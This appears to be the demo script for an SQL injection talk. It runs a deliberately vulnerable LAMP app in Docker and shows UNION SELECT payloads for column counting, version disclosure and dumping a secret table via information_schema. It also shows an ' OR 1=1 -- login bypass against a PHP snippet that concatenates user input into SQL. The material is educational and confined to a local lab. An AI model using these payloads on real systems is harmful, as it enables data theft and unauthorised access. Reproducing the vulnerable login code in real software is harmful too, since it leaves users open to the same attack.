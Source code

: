 ## Setup the Docker Image

This requires Docker to work. Please goolge how to install Docker on your OS and when you get that working come back to this.

The demo uses an existing lamp stack Docker image. This has a Ubuntu base, Apache2, MySQL and PHP baked into the image.
To download and run the SQL vulnerable application execute the command shown below:

```bash
docker run -i -t -p "8888:80" -v ${PWD}/app:/app -v ${PWD}/mysql:/var/lib/mysql mattrayner/lamp:latest
```

This will expose the app on TCP port 8888 locally. It will mount the program code from the ./app folder, and create a persistent MySQL database folder.

Browse to the application http://localhost:8888/ and then click on the button labelled "RESET" to setup the database before proceeding. Or you will
get error messages when you browse to the vulnerable pages saying the user does not exist.

# Error Based: SQL Injection into String Field

Check for error based SQL Injection by using a single-quote:

```'```

When the app has verbose error messages you will easily find a Syntax error.

When the app does not have verbose error messages check for visual changes such as a table not rendering. Alternatively 
are timing or logic based techniques for "blind" SQL Injection. Not covering those today.

## Data Extraction: Get something we are not entitled to see

UNION SELECT statements can return data from additional tables or locations.

The syntax of a "UNION SELECT" requires knowledge of the number of columns in the original query.


```' ORDER BY n```

```' ORDER BY n--```

Check for errors or behaviours indicating the query failed. Find the highest number "n" which does not trigger an error.

In this case the original query had three columns. So we need to use a "UNION SELECT" with three columns:

```
' UNION SELECT null, null, null--
' UNION SELECT 'a', 'b', 'c'--
' OR 1=1 UNION SELECT 'a', 'b', 'c'--
```

These should be valid and add a row to the results table. 

Lets prove we can extract information an attacker should not know which can be of use to them:

```
' UNION SELECT null, @@version, null--
```

You can get lots of useful information using this technique.

Demo over. *Back to slides.

# Error Based: SQL Injection into Numeric Field

String datatypes are wrapped in single-quotes but numeric fields are not.
We can still check for SQL Injection by adding a single-quote to an input field since it would trigger a syntax error.
So lets try this again:

```'```

Again, for error based SQL injection this will do well. We are not covering blind injection tonight.

Exploitation is similar to string fields but we do not need to add our own single quotes. So our payloads from before 
are now:

```
40 UNION SELECT null, null, null--
40 UNION SELECT 'a', 'b', 'c'--
40 OR 1=1 UNION SELECT 'a', 'b', 'c'--
```

The difference is we need to set a value to the original numeric field or it will trigger an error. So we start each
injection with a valid integer.

So far, same old same.

## Data Extraction: Data from another table

First find the name of other database tables. In MYSQL that means asking the "information_schema.tables" table:

```
40 UNION SELECT null, table_schema, table_name FROM information_schema.tables --
```

Oh snap, what is that "appdata.secretdata" table all about? Sounds juicy.
To get something from it it helps to know the column names used in the table:

```
40 UNION SELECT null, TABLE_NAME, COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='secretdata'
```

The table has only two columns "id", and "secretdata". And lets dump the secrets!

```
40 UNION SELECT id, secret, null from secretdata
```

You can enumerate and read all information stored in the database using these techniques.

Demo over. *Back to slides.

# Error Based: Authentication Bypass

We have shown data extraction so far. The definition of SQL Injection said "Allow an attacker to alter the intended logic"
That is a broad statement and you get some cool tricks like being able to bypass authentication IF the login form is 
vulnerable to SQL Injection.

The following shows example source code for a login form:

```php
$user = $_POST['username'];
$pass = $_POST['password'];

$sql = "select * from users where username='" . $user . "' and password='" . $pass ."'";
$result=mysqli_query($conn, $sql) or die($conn->error);
```

The username and password fields come from an HTTP request issued by the user.
The values are not subjected to any input validation before they are then added into the SQL query and executed.

Most login forms operate using a statement like this:

```
SELECT * FROM users WHERE username='<user>' AND password='<pass>'
```

If we can inject into the username location we can use magic to login as any user we want without knowing any passwords.

```
PAYLOAD: ' OR 1=1 --
SELECT * FROM users WHERE username='' OR 1=1 --' AND password='<pass>'
```

We are in! It seems to say we are "admin" too, result!

Demo over. *Back to slides. 
